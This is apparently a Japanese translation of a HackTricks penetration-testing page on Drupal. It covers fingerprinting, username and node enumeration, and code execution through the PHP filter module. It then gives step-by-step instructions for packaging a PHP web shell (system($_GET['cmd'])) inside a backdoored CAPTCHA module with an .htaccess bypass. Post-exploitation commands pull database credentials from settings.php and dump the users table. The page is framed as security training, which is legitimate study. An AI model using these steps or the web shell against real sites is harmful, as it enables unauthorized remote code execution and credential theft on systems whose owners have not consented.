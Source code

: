 # Drupal

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter**で**フォロー**する 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Discovery

* **meta**をチェック
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **はノードを使用してコンテンツをインデックス化**します。ノードにはブログ投稿、投票、記事など、**何でも保持**できます。ページのURIは通常、`/node/<nodeid>`の形式です。
```bash
curl drupal-site.com/node/1
```
## 列挙

Drupalはデフォルトで**3種類のユーザー**をサポートしています:

1. **`管理者`**: このユーザーはDrupalウェブサイト全体を完全に制御できます。
2. **`認証ユーザー`**: これらのユーザーはウェブサイトにログインし、権限に基づいて記事の追加や編集などの操作を行うことができます。
3. **`匿名`**: すべてのウェブサイト訪問者は匿名として指定されます。デフォルトでは、これらのユーザーは投稿を読むことしか許可されていません。

### バージョン

* `/CHANGELOG.txt`をチェック
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupalの新しいインストールでは、デフォルトで`CHANGELOG.txt`と`README.txt`ファイルへのアクセスがブロックされています。
{% endhint %}

### ユーザー名の列挙

#### 登録

_ /user/register_ でユーザー名を作成しようとすると、すでに使用されている名前の場合に通知されます：

![](<../../.gitbook/assets/image (328).png>)

#### 新しいパスワードのリクエスト

既存のユーザー名に対して新しいパスワードをリクエストする場合：

![](<../../.gitbook/assets/image (903).png>)

存在しないユーザー名に対して新しいパスワードをリクエストする場合：

![](<../../.gitbook/assets/image (307).png>)

### ユーザー数の取得

_ /user/\<number>_ にアクセスすると、既存のユーザー数を確認できます。この場合、_ /users/3_ は見つかりませんのエラーを返します：

![](<../../.gitbook/assets/image (333).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### 非表示ページ

**`/node/$` と入力し、`$` には数字が入ります**（たとえば1から500まで）。\
検索エンジンによって参照されていない**非表示ページ**（テスト、開発）を見つけることができます。

#### インストールされたモジュールの情報
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### 自動
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHPフィルターモジュールを使用する

{% hint style="warning" %}
Drupalの古いバージョン**(バージョン8より前)**では、管理者としてログインし、`PHP filter`モジュールを**有効にする**ことが可能でした。このモジュールは「埋め込みPHPコード/スニペットを評価する」ことができます。
{% endhint %}

**プラグインphpがインストールされている必要があります**（_/_modules/php_にアクセスして**403**が返された場合は**存在します**、**見つからない**場合は**プラグインphpがインストールされていません**）

_Modules_に移動 -> (**Check**) _PHP Filter_を選択 -> _Save configuration_

![](<../../.gitbook/assets/image (247) (1).png>)

その後、_Add content_をクリック -> _Basic Page_または_Article_を選択 -> _本文にphpシェルコードを記述_ -> _Text format_で_PHP code_を選択 -> _Preview_を選択

![](<../../.gitbook/assets/image (338).png>)

最後に、新しく作成したノードにアクセスしてください：
```bash
curl http://drupal-site.local/node/3
```
### PHPフィルターモジュールのインストール

**バージョン8以降では、**[**PHPフィルター**](https://www.drupal.org/project/php/releases/8.x-1.1)**モジュールはデフォルトでインストールされていません**。この機能を活用するには、**モジュールを自分でインストールする必要があります**。

1. Drupalのウェブサイトからモジュールの最新バージョンをダウンロードします。
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. ダウンロードが完了したら、**`管理`** > **`レポート`** > **`利用可能な更新`**に移動します。
4. **`参照`**をクリックし、ダウンロードしたディレクトリ内のファイルを選択して、**`インストール`**をクリックします。
5. モジュールがインストールされたら、**`コンテンツ`**をクリックして、Drupal 7の例と同様に**新しい基本ページを作成**します。再度、**`テキスト形式`のドロップダウンから`PHPコード`を選択**することを忘れないでください。

### バックドア付きモジュール

バックドア付きモジュールは、**既存のモジュールにシェルを追加することで作成**できます。モジュールはdrupal.orgのウェブサイトで見つけることができます。[CAPTCHA](https://www.drupal.org/project/captcha)などのモジュールを選択しましょう。tar.gz形式の[アーカイブ](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz)のリンクをコピーします。

* アーカイブをダウンロードして、その内容を抽出します。
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* 以下の内容で **PHPウェブシェル** を作成します：
```php
<?php
system($_GET["cmd"]);
?>
```
* 次に、フォルダへのアクセス権を自分自身に与えるために **`.htaccess`** ファイルを作成する必要があります。これは、Drupalが **`/modules`** フォルダへの直接アクセスを拒否するために必要です。
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* 上記の設定は、/modules内のファイルをリクエストしたときに/folderにルールを適用します。これらのファイルをcaptchaフォルダにコピーして、アーカイブを作成してください。
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* ウェブサイトに **管理アクセス** があると仮定して、サイドバーの **`管理`** をクリックし、次に **`拡張`** をクリックします。その後、**`+ 新しいモジュールをインストール`** ボタンをクリックし、インストールページに移動します。例：`http://drupal-site.local/admin/modules/install` バックドア付きの Captcha アーカイブを参照して **`インストール`** をクリックします。
* インストールが成功したら、**`/modules/captcha/shell.php`** に移動してコマンドを実行します。

## ポストエクスプロイテーション

### settings.php を読む
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### DBからユーザーをダンプする
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## 参考文献

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい** または **HackTricksをPDFでダウンロードしたい場合は** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live) をフォローする。
* **HackTricks** および **HackTricks Cloud** のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有してください。

</details>
